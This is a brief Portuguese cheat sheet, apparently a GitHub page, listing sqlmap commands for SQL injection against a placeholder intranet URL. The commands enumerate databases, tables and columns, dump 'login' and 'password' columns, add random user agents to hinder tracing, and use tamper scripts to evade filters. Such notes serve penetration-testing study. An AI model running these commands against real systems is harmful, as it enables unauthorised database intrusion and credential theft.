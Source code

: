 # SQLMAP

Ferramente para automatização de SQL Injection.
http://sqlmap.org

Testar todos os bancos de dados de um URL:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --dbs

Especificar um determinado banco de dados:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql
*O **current-db** pega o banco de dados em execução no momento.*

Utilizar um agente randômico para dificultar a rastreabilidade:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent

Acessando o banco de dados e listando as tabelas:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --dbms=mysql --random-agent -D nomedobanco --tables

Listando as colunas da tabela:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent -D nomedobanco -T nomedatabela --columns

Efetuando o dump das informações:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent -D nomedobanco -T nomedatabela -C 'login,password' --dump
*Acima foi efetuado o dump na coluna **login** e **password**.*

Há alguns scripts de tamper no sequinte diretório:
/usr/share/sqlmap/tamper/

Utilizando o tamper:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --tamper="namescript.py"

Tentando formulário:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --forms

Especificando formulário para testar:
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --data="campo3="
